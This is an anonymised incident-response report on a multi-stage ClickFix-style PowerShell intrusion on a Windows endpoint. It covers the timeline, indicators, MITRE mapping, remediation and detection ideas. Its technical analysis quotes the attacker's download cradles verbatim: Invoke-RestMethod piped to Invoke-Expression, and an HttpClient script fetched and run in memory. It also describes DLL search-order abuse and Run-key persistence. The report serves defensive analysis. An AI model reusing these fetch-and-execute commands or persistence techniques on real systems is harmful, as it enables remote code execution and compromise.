

> This report has been anonymised for publication. Organisation names, hostnames, usernames, dates and internal identifiers have been removed or generalised. Malicious domains are redacted. File hashes are published as observed.
{: .prompt-info }

## Incident at a Glance

| | |
|---|---|
| **Incident type** | Multi-stage PowerShell intrusion, consistent with ClickFix |
| **Severity** | High |
| **Scope** | One Windows endpoint, one user account |
| **Delivery** | PowerShell download cradles; malicious `.jpg.lnk` shortcut archive also present |
| **Key techniques** | In-memory execution, string obfuscation, environment-variable staging, DLL search-order abuse, Run-key persistence |
| **Activity window** | Three phases over several days |
| **Status** | Contained and validated clean. Reimage recommended |

## 1. Executive Summary

A Windows endpoint on a managed network was compromised through a multi-stage intrusion consistent with the **ClickFix** social-engineering technique. In this technique, a user is persuaded to paste and run a command themselves. Activity occurred in three phases over several days. It began with an obfuscated PowerShell download cradle and escalated to a full compromise chain. That chain ran remote code in memory and dropped an unsigned executable alongside a malicious DLL in three disguised locations. It also established registry persistence.

All identified artefacts were removed. Blocking indicators for three domains and two file hashes were deployed across the tenant. The endpoint passed a full antivirus scan and a complete post-reboot persistence sweep. Because attacker code executed in memory on two separate occasions, disk-based validation cannot give full assurance. **Reimaging the device and resetting the user's credentials are recommended** to close the incident.

### Key findings

- Two separate malicious domains were used for staged PowerShell payload delivery.
- The Phase 3 chain completed in roughly 90 seconds, from download to persistence.
- The payload was deployed to **three** disguised directories. The third copy was found only through a timestamp-based filesystem sweep.
- Two randomly named HKCU Run values provided persistence at logon.
- The compromised account held local administrator rights, increasing potential impact.
- Logging gaps prevented recovery of historical network destinations. These included DNS Client operational logging and Security Event 5156.

## 2. Scope and Approach

**Evidence sources:** EDR alerts and incident graph, PowerShell Operational and Windows PowerShell event logs (Event IDs 400, 403, 600), filesystem timestamps, registry hives, Authenticode signatures, active connections and DNS cache.

**Limitations:** Script Block Logging, DNS Client operational logging, Security Event 5156 and process-creation command-line auditing (Event 4688) were not enabled at the time of compromise. Second-stage script content and historical destination IPs could not be recovered.

The ClickFix attribution rests on the EDR's ClickFix-family behavioural detection and the observed PowerShell patterns. How the commands were launched was not established.

## 3. Attack Timeline

Phases are relative. Exact dates have been removed.

| Phase | Activity | Outcome |
|---|---|---|
| **Phase 1** | Obfuscated PowerShell rebuilds a domain at runtime and pipes remote content into `Invoke-Expression` | Download-and-execute command observed |
| **Phase 2** | ZIP archive containing `IMG_[redacted].jpg.lnk` found in the user's Recycle Bin | Detected as `Trojan:Win32/WinLNK.H!MTB` |
| **Phase 3** | HttpClient downloader, then environment-variable second stage, payload drop and persistence, within about 90 seconds | Full compromise; multiple EDR detections |

### Phase 3 execution chain



## 4. Technical Analysis

### 4.1 Phase 1: Obfuscated download cradle

PowerShell rebuilt a domain name at runtime from scrambled substrings, then executed:

```powershell
Invoke-RestMethod [redacted-domain-1] | Invoke-Expression
```

This is a classic **download cradle**. Remote content is fetched and passed straight to the interpreter, so no script file is written to disk. Splitting the domain into fragments defeats simple static string matching on the command line.

### 4.2 Phase 2: Double-extension shortcut

A ZIP archive in the Recycle Bin contained a shortcut named `IMG_[redacted].jpg.lnk`. Windows hides known extensions by default, so the file appears as an ordinary photo. Opening it runs whatever command the shortcut points to. Endpoint protection classified it as `Trojan:Win32/WinLNK.H!MTB`.

### 4.3 Phase 3: Full compromise chain

**Stage 1: In-memory downloader.** The attacker used the .NET `HttpClient` class instead of `Invoke-WebRequest` and spoofed a browser-style User-Agent:

```powershell
Add-Type -AssemblyName System.Net.Http
$componentSource = 'https://[redacted-domain-2]/?e=q'
$httpClient = New-Object System.Net.Http.HttpClient
$httpClient.DefaultRequestHeaders.UserAgent.ParseAdd('Mozilla/5.0 (Windows NT 10.0; WindowsPowerShell)')
$scriptBody = $httpClient.GetStringAsync($componentSource).GetAwaiter().GetResult()
&([scriptblock]::Create($scriptBody))
```

The response was converted to a script block and executed directly in memory.

**Stage 2: Environment-variable staging.** A 32-bit PowerShell process then executed code held in a process-scoped environment variable:

```powershell
powershell.exe -nop -command &($executioncontext.InvokeCommand.NewScriptBlock([string]$env:KB))
```

Only the loading mechanism appears on the command line. The payload itself never does, which limits what command-line telemetry can capture.

**Stage 3: Payload deployment.** An unsigned executable was written to three directories named to resemble Windows cache or update folders:

```text
%LOCALAPPDATA%\Temp\<random>_z_upd_<random>\
%LOCALAPPDATA%\<random>_slxvi_f_upd_<random>\
%LOCALAPPDATA%\Temp\Microsoft\Windows\Caches\<random>\
```

All three copies shared the same SHA-256 hash. Each was paired with a malicious `dwmapi.dll`, which reuses the name of a legitimate Windows system library. Windows looks in an application's own directory before System32 for DLLs that are not KnownDLLs, so the attacker's DLL loads instead of the genuine one. The executable was itself attacker-supplied and unsigned. This makes the pairing act more like a loader arrangement than the hijacking of a trusted application, though the EDR classed the behaviour as DLL search-order hijacking.

**Stage 4: Persistence.** Two randomly named values were added under:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

This ensured the payload re-executed at every user logon.

### 4.4 Detections raised

| Detection | Stage |
|---|---|
| Obfuscated / suspicious command-line execution | Downloader and second stage |
| Anomalous ASEP registry modification | Persistence |
| Unexpected DLL load by a known executable | Payload execution |
| DLL search-order hijack behaviour | Payload execution |
| ClickFix-family behavioural signature | Overall chain |

## 5. Indicators of Compromise

| Type | Indicator | Context |
|---|---|---|
| Domain | `[redacted-domain-1]` | Phase 1 obfuscated download cradle |
| Domain | `[redacted-domain-2]` | Phase 3 HttpClient downloader |
| Domain | `[redacted-domain-3]` | Related infrastructure, blocked preventatively |
| SHA-256 | `FCD4B305FA11B1FE5E5090624F64B0717491421529FA7E1EA259E4FF10544A4C` | Unsigned payload executable (all 3 copies) |
| SHA-256 | `FF11CB574D87A181047B14433461445DA58D94899723F197941C053240B5AA47` | ZIP archive containing the `.jpg.lnk` shortcut |
| File name | `dwmapi.dll` outside `System32` | Malicious DLL beside the payload |
| Registry | `HKCU\...\CurrentVersion\Run\<random>` (x2) | Logon persistence |
| Path pattern | `%LOCALAPPDATA%\...\*_upd_*\` and `...\Windows\Caches\<random>\` | Disguised payload directories |

Full domain values were submitted to the organisation's EDR platform and shared with threat-intelligence community channels.

## 6. MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|---|---|---|
| Execution | T1204.004 User Execution: Malicious Copy and Paste | ClickFix-family behavioural detection |
| Execution | T1204.002 User Execution: Malicious File | `.jpg.lnk` shortcut detected (execution not confirmed) |
| Execution | T1059.001 Command and Scripting Interpreter: PowerShell | Download cradles, in-memory script blocks |
| Command and Control | T1105 Ingress Tool Transfer | Payload retrieved from remote domains |
| Defence Evasion | T1027 Obfuscated Files or Information | String reassembly, environment-variable staging |
| Defence Evasion | T1036.007 Masquerading: Double File Extension | `IMG_*.jpg.lnk` |
| Defence Evasion | T1036.005 Masquerading: Match Legitimate Name or Location | Fake cache/update folders, `dwmapi.dll` |
| Persistence / Defence Evasion | T1574.001 Hijack Execution Flow: DLL | Malicious DLL loaded beside payload |
| Persistence | T1547.001 Registry Run Keys / Startup Folder | Two HKCU Run values |

## 7. Response and Remediation

### Investigation

1. Reviewed the EDR incident graph to establish the attack chain and affected entities.
2. Correlated PowerShell engine events (400, 403, 600) and separated the malicious `HostApplication` command lines from heavy, legitimate RMM script activity.
3. Built a second-by-second timeline from file creation times, PowerShell events and EDR detections.
4. Ran a timestamp-windowed filesystem search, which revealed a **third payload copy** not covered by the initial alerts.
5. Verified Authenticode signatures to separate unsigned malicious binaries from signed vendor tooling.
6. Swept persistence locations: Run/RunOnce across loaded user hives, Winlogon Shell/Userinit, AppInit_DLLs, IFEO debuggers, BITS jobs, scheduled tasks and services.
7. Reviewed active connections and DNS cache. Historical destination recovery was not possible because of the logging gaps noted in Section 2.

### Containment and eradication

- Terminated all running instances of the payload.
- Removed all three payload directories and the malicious DLLs.
- Removed both Run-key persistence values.
- Removed the ZIP/LNK archive from the Recycle Bin.
- Deployed **Block** indicators for three domains and **Block and Remediate** indicators for two file hashes.

### Recovery and validation

- Completed a full antivirus scan (clean).
- Rebooted and repeated the full artefact, persistence, process, service and task sweep. Nothing regenerated.
- Attributed a later firewall-behaviour detection to an unrelated scan by a legitimate, signed RMM agent. This was not reinfection.

### Hardening applied

- Disabled the Windows Run dialog (Win+R) through central device-management policy, a ClickFix-specific control.

## 8. Recommendations

| Priority | Recommendation | Rationale |
|---|---|---|
| High | Reimage the endpoint | In-memory execution on two occasions; disk inspection cannot give full assurance |
| High | Reset the user's password and revoke active sessions | Arbitrary code ran in the user's context |
| High | Review sign-in logs from the earliest compromise onward | Identify any credential misuse |
| Medium | Remove local administrator rights from the user account | Admin rights widened the potential impact |
| Medium | Enable Script Block Logging, DNS Client operational logging and Event 4688 command-line auditing fleet-wide | Closes the evidence gaps found in this investigation |

## 9. Detection Opportunities

- Script-block content combining `HttpClient` or `Invoke-RestMethod` with `ScriptBlock::Create()` or `Invoke-Expression`.
- `powershell.exe -nop` building a script block from an environment variable.
- New, randomly named HKCU Run values shortly after PowerShell network activity.
- Unsigned executables in user-writable paths loading `dwmapi.dll` from outside System32.
- Archives containing double-extension `.lnk` files.

## 10. Lessons Learned

- **Filter the noise first.** Legitimate RMM monitoring scripts generated most PowerShell events on the host. The malicious activity was only visible after deliberate filtering.
- **Don't stop at the first artefact.** Remediating only the alerted paths would have left a working payload copy behind.
- **Logging decides what you can prove.** Default logging left no record of where the malicious domains resolved.
- **Validate before escalating.** A post-remediation alert from a signed RMM agent was benign. Checking signatures prevented a false reinfection call.
- **Clean is not the same as trusted.** After in-memory execution, a clean post-reboot sweep reduces risk but does not replace a reimage.
